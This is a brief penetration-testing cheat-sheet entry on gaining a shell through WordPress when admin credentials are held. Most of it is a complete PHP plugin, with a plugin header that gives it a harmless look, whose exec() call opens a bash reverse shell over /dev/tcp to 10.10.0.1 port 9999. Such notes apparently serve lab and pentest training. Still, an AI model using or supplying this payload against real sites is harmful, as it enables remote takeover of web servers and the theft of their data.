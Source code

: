 # Wordpress

If you have admin credentials to the wordpress CMS you can craft a plugin containing the reverse shell one liner.

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Kimi
* Author URI: http://www.nowhere.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.0.1/9999 0>&1'");
?>
```
